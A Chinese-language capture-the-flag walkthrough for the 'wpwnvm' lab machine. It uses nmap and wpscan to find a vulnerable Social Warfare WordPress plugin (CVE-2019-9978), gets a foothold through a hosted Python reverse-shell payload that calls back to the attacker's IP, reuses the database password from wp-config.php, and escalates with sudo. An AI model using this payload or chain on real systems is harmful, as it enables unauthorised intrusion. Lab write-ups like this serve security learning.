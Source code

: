 # wpwnvm
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ sudo nmap -p- 192.168.146.65                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F9:0B:60 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.07 seconds

└─$ sudo nmap -p22,80 -sV -A 192.168.146.65
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:27 HKT
Nmap scan report for 192.168.146.65
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:F9:0B:60 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 192.168.146.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds

```
这个靶机只有一个80和22端口开着, 那么入口就在网页端了
### Web信息枚举
![Img](../FILES/wpwnvm/img-20220814173522.png)
直接访问是一个建设中的页面
<br>
使用dirsearch查看一下可访问的
```
[17:36:12] 200 -  134B  - /index.html
[17:36:21] 200 -   57B  - /robots.txt
[17:36:32] 200 -    7KB - /wordpress/wp-login.php
[17:36:32] 200 -   27KB - /wordpress/
                                          
```
![Img](../FILES/wpwnvm/img-20220814173742.png)
robots.txt是一个fake的信息...
<br>
但是这是一个wordpress, 那直接上wpscan
<br>
TIP: 在这里我用了wpscan的api, 直接扫描出了可能有关的漏洞
```
i] Plugin(s) Identified:

[+] social-warfare
 | Location: http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2021-07-20T16:09:00.000Z
 | [!] The version is out of date, the latest version is 4.3.0
 |
 | Found By: Comment (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/32085d2d-1235-42b4-baeb-bc43172a4972
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9978
 |      - https://wordpress.org/support/topic/malware-into-new-update/
 |      - https://www.wordfence.com/blog/2019/03/unpatched-zero-day-vulnerability-in-social-warfare-plugin-exploited-in-the-wild/
 |      - https://threatpost.com/wordpress-plugin-removed-after-zero-day-discovered/143051/
 |      - https://twitter.com/warfareplugins/status/1108826025188909057
 |      - https://www.wordfence.com/blog/2019/03/recent-social-warfare-vulnerability-allowed-remote-code-execution/
 |
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618
 |      - https://www.webarxsecurity.com/social-warfare-vulnerability/
 |
 | Version: 3.5.2 (100% confidence)
 | Found By: Comment (Passive Detection)
 |  - http://192.168.146.65/wordpress/, Match: 'Social Warfare v3.5.2'
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://192.168.146.65/wordpress/wp-content/plugins/social-warfare/readme.txt

```

尝试枚举用户
```
i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
在上面使用wpscan的时候, 有一个100%命中的插件, social warfare, 那我们用searchspolit试试
![Img](../FILES/wpwnvm/img-20220814175756.png)
竟然是一个RCE, 拉下来查看一下代码
![Img](../FILES/wpwnvm/img-20220814175833.png)
path在wp-admin下面的post处, 那我们就直接根据漏洞的path来获取我们的shell
![Img](../FILES/wpwnvm/img-20220814181711.png)
```
<pre>system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.146.50",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);\'')</pre>
```
在本地起监听端口, 同时使用python3去起一个http服务
```
└─$ sudo python3 -m http.server 80                                   
[sudo] password for aaron: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──(aaron㉿aacai)-[~/Desktop/wpwnvm]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.65] 49886

```

然后我们再用curl去访问本地, 这样我们就突破边界拿到了靶机的用户权限
![Img](../FILES/wpwnvm/img-20220814182138.png)
## 提升权限
### 查看wordpress文件
```
www-data@wpwn:/var/www/html/wordpress$ ls
ls
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

```
可以看到wp-config.php
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
然后我们来利用python获取可交互式的shell, 尝试使用这个密码登录另一个用户
![Img](../FILES/wpwnvm/img-20220814182655.png)
登录上来了!
查看sudo -l, 发现这个用户可以执行所有的sudo权限.
![Img](../FILES/wpwnvm/img-20220814182845.png)

那就直接sudo su
![Img](../FILES/wpwnvm/img-20220814182827.png)
提权成功
